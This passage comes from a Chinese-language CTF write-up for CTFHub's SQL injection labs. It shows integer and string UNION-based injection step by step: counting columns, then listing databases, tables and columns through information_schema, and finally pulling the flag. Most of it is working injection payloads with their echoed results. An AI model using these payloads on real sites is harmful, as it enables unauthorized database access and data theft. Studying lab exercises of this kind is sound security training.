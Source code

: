 -1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=“sqli”

得到回显：

Data: news,flag

##### c.爆列名

-1 union select 1,group_concat(column_name) from information_schema.columns where table_name=“flag”

得到回显：

Data: flag

##### d.爆字段

-1 union select 1,group_concat(flag) from flag

得到回显：

Data: ctfhub{3040c5c414ba645535376218}

### 字符型注入

就像整数型一样，但是区别于有单引号需要自己构造单引号语句来让其失效

#### 1.查看数据库的列数

1’ order by 3 – ‘发现报错，那么改为2 ：1’ order by 2 – '得到回显

说明有两列

#### 2.联合查询

##### a.爆库名

这是获取所有数据库的语句：

’ union select 1,group_concat(schema_name) from information_schema.schemata – ’

发现information_schema是一个数据库

’ union select 1,database()#

得到了sqli

##### b.爆表

’ union select table_schema, group_concat(table_name) from information_schema.tables where table_schema=‘sqli’ – ’

##### c.爆列名

-1’ union select 1,group_concat(column_name) from information_schema.columns where table_name=‘flag’#

##### d.爆字段

’ union select 1,group_concat(flag) from flag – ’

## XSS
